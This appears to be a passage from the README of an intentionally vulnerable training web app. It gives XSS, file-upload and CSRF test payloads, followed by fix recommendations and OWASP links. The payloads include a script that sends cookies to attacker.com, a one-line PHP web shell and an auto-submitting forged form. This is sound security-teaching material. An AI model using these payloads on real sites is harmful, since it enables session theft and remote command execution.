 ### XSS Testing
```html
<!-- Test in comment field -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

### File Upload Testing
```bash
# Upload a malicious file
echo '<?php system($_GET["cmd"]); ?>' > malicious.php
# Upload via the file upload interface
```

### CSRF Testing
```html
<!-- Create a malicious page with auto-submitting form -->
<form action="http://localhost:3001/api/comments" method="POST" id="csrf">
  <input name="content" value="<script>alert('CSRF Attack!')</script>">
  <input name="userId" value="1">
</form>
<script>document.getElementById('csrf').submit();</script>
```

## Fix Recommendations

### Immediate Actions (Critical)
1. **Fix SQL Injection:** Use parameterized queries
2. **Sanitize XSS:** Use proper encoding/escaping
3. **Secure Authentication:** Strong JWT secrets, secure storage
4. **Implement Access Control:** Server-side authorization
5. **Validate File Uploads:** Type, size, content validation

### Security Improvements (High Priority)
1. **Add CSRF Protection:** CSRF tokens
2. **Implement Security Headers:** CSP, HSTS, etc.
3. **Input Validation:** Comprehensive validation
4. **Error Handling:** Generic error messages
5. **Rate Limiting:** Prevent abuse

### Best Practices (Medium Priority)
1. **Security Logging:** Proper audit trails
2. **Password Policy:** Strong password requirements
3. **Account Lockout:** Brute force protection
4. **Regular Updates:** Keep dependencies current
5. **Security Testing:** Automated security scans

## Learning Resources

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [React Security Best Practices](https://snyk.io/blog/10-react-security-best-practices/)
- [Node.js Security Checklist](https://blog.risingstack.com/node-js-security-checklist/)
